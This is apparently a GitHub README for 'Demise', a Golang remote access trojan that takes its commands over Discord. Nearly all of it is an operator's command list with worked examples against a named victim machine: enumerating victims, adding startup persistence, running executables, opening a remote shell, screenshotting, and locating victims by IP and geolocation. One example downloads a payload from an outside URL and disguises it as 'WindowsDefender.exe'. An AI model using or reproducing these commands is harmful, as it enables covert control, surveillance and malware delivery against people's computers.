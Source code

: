 # Demise

Demise is Golang malware that uses Discord for communication. 

![image](https://user-images.githubusercontent.com/99378532/184524385-89bda0f6-b46d-4e5e-868f-f044dac0ae1d.png)

# Demo

![image](https://user-images.githubusercontent.com/99378532/184524374-a18668bc-7888-4912-b4be-269bedde7b6e.png)

#Commands

show victims connected
$victims

extract a zip file
$unzip <username> <.zip file on drive> <directory to extract in>
Example:
$unzip DESKTOP-2HJUUK6\Tod main.zip C:\msys64\home\Tod\projects\go\src\github.com\0xSegFaulted\

run Demise on startup
$startup <username>
Example
$startup DESKTOP-2HJUUK6\Tod

run an executable (some executables require admin)
$run <username> <location of exe>
Example
$run DESKTOP-2HJUUK6\Tod file.exe

download file
$dl <username> <url> <name of file>
Example
$dl DESKTOP-2HJUUK6\Tod http://somesite.com/payload.exe WindowsDefender.exe

run commands
$shell <username> <command> <flags... optional>
Example 
$shell DESKTOP-2HJUUK6\Tod whoami

screenshot desktop
$ss <username>
Example
$ss DESKTOP-2HJUUK6\Tod

get IP
$ip <username>
Example
$ip DESKTOP-2HJUUK6\Tod

kill session
$kill <username>
$kill DESKTOP-2HJUUK6\Tod

geolocate
$geoloc <username>
$geoloc DESKTOP-2HJUUK6\Tod
